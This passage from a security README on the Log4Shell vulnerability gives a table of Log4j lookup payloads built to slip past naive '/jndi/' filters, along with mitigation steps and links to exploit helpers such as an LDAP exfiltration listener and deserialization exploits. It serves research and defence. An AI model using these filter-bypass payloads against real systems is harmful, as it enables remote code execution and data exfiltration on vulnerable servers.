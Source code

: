 # Filter Bypasses

By chaining `${...}` properties it becomes trivially possible to bypass naive filters.

Some examples

| Payload                        | Description                                       |
|--------------------------------|---------------------------------------------------|
| `${jNdI}`                      | Simple `/jndi/` filter                            |
| `${j${lower:N}di}`             | Simple `/jndi/i` filter                           |
| `${j${env:XXX:-n}di}`          | Simple `/jndi/i` filter                           |
| `${j${env:XXX:-}ndi}`          | Simple `/jndi/i` filter                           |
| `${j${invalid:-n}di}`          | Simple `/jndi\|env\|lower\|upper/i` filter        |
| `${${ctx:myPayload}}`          | If you are able to place input into ThreadContext |
| `$`, `{env:USER}`              | E.g. `logger.info(userInput1+userInput2)`         |
| `${${env:X:-}jndi:ldap://...}` | Canary, request is only made if `X` is set        |

Log4j also has a `${base64:base64EncodedString}` property, however I have not been able to get this to work.

# Mitigation

 - Upgrade to Log4J 2.15.0 AND ensure that lookup behavior is disabled (this is the case by default)
 - Set `formatMsgNoLookups=true` to disable lookup behavior
 - **Disabling `trustURLCodebase` is not adequate to prevent RCE**

# Tools

I've published helper scripts, vulnerable applications, and sample exploits at [uint0/cve-2021-44228-helpers](https://github.com/uint0/cve-2021-44228-helpers). This includes
 - Echo app for testing inputs
 - LDAP exfiltration listener
 - Vulnerable Spring + Hibernate application + RMI Deserialization exploit
 - Vulnerable echo app + jndi injection exploit

[feihong-cs/JNDIExploit](https://github.com/feihong-cs/JNDIExploit/) and [veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi) are useful for jndi injection exploits.

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) contains many useful deserialization exploits.

# Appendix

## Lookups / JNDI Lookups in Log4J >= 2.15.x
